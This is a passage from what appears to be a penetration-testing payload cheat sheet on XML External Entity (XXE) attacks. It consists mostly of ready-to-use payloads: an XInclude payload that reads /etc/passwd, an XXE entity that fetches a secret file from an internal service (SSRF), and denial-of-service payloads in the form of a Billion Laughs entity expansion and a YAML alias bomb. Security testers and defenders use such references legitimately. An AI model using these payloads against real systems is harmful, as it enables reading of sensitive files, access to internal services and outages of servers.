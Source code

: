 ### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## Exploiting XXE to perform a deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
